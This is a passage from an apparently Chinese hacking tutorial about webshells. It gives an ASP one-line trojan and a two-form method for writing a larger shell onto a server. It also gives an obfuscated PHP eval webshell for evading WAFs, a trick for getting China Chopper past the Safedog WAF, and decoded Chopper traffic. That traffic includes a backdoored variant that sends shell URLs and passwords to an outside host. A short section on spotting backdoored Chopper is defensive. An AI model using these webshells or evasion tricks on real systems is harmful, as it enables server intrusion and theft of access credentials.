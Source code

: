 ```text
</form>
```

**服务端中有文件1.asp，内容为：**

```text
<%execute request("xiaoxian")%>
```

表单的作用就是把表单里的内容提交到服务器端的1.asp文件，而1.asp即为一句话木马，会执行提交的内容。简单地说，就是构造两个表单,第一个表单里的代码是文件操作的代码(就是把第二个表单内的内容写入在当前目录下并命名为new.asp的这么一段操作的处理代码)那么第二个表单当然就是我们要写入的马了。第一个表单的名字和1.asp中的密码必须一样，而第二个表单的名字必须和IP.writetext request("newvalue") 里的newvalue一样。至此只要服务器有写的权限该表单所提交的大马内容就会被写入到new.asp中。即new.asp为我们的shell地址。

## 0x02 一句话木马如何绕过WAF实现上传

这时候进行编码即可下面的是一个简单的编码例子，复杂的到网上下载即可：

```php
<?php
$mt="JF9QT1NU";
$ojj="QGV2YWwole";
$hsa="Wydlele4aW";
$fnx="FveGlhbiddKTs=";
$zk=str_replace("d","","sdtdrd_redpdldadcde");
$ef=$zk("z","","zbazsze64_zdzeczodze");
$dva=$zk("p","","pcprpepaptpe_fpupnpcptpipopn");
$zvm=$dva('',$ef($zk("le","",$ojj.$mt.$hsa.$fnx)));
$zvm();
?>
```

## 0x03 中国菜刀一些技巧和后门分析

开启安全狗之后即使上传了一句话木马但是也是无法直接用菜刀连接的，将菜刀发送的信息通过Firefox的Hackbar来POST过去即可绕过。

具体的效果要看不同种类、不同版本的WAF了，这里使用的是最新版的安全狗因为还是被过滤了。当然网上也有过狗版的菜刀，但是本人使用的版本效果并不好。

如何检测菜刀是否存在后门？

使用WSockExpert软件或其它抓包软来来选择需要监听的“中国菜刀”程序，开始监听后，用菜刀连接Webshell进行一些操作，然后查看抓到的包，找到Send即发送包，其中的内容含有密码xiaoxian和加密过的内容，接着对里面的内容解码就是（这个是据说是官网下载的菜刀，但是确实没看到有后门）：

```php
@eval (base64_decode($_POST[z0]));
&z0=@ini_set("display_errors","0");@set_time_limit(0);@set_magic_quotes_runtime(0);echo("->|");;$D=base64_decode($_POST["z1"]);$F=@opendir($D);if($F==NULL){echo("ERROR:// Path Not Found Or No Permission!");}else{$M=NULL;$L=NULL;while($N=@readdir($F)){$P=$D."/".$N;$T=@date("Y-m-d H:i:s",@filemtime($P));@$E=substr(base_convert(@fileperms($P),10,8),-4);$R="\t".$T."\t".@filesize($P)."\t".$E."
";if(@is_dir($P))$M.=$N."/".$R;else $L.=$N.$R;}echo $M.$L;@closedir($F);};echo("|<-");die();
&z1=@ini_set("display_errors","0");@set_time_limit(0);@set_magic_quotes_runtime(0);echo("->C:\\wce\\
```

这是有后门的菜刀第一次解码的结果：

```php
@eval(base64_decode('aWYoJF9DT09LSUVbJ0x5a2UnXSE9MSl7c2V0Y29va2llKCdMeWtlJywxKTtAZmlsZSgnaHR0cDovL3d3dy5hcGkuY29tLmRlL0FwaS5waHA/VXJsPScuJF9TRVJWRVJbJ0hUVFBfSE9TVCddLiRfU0VSVkVSWydSRVFVRVNUX1VSSSddLicmUGFzcz0nLmtleSgkX1BPU1QpKTt9'));@ini_set("display_errors","0");@set_time_limit(0);@set_magic_quotes_runtime(0);echo("->|");;$D=dirname($_SERVER["SCRIPT_FILENAME"]);if($D=="")$D=dirname($_SERVER["PATH_TRANSLATED"]);$R="{$D}\t";if(substr($D,0,1)!="/"){foreach(range("A","Z")
 as 
$L)if(is_dir("{$L}:"))$R.="{$L}:";}$R.="\t";$u=(function_exists('posix_getegid'))?@posix_getpwuid(@posix_geteuid()):'';$usr=($u)?$u['name']:@get_current_user();$R.=php_uname();$R.="({$usr})";print
 $R;;echo("|<-");die();
```
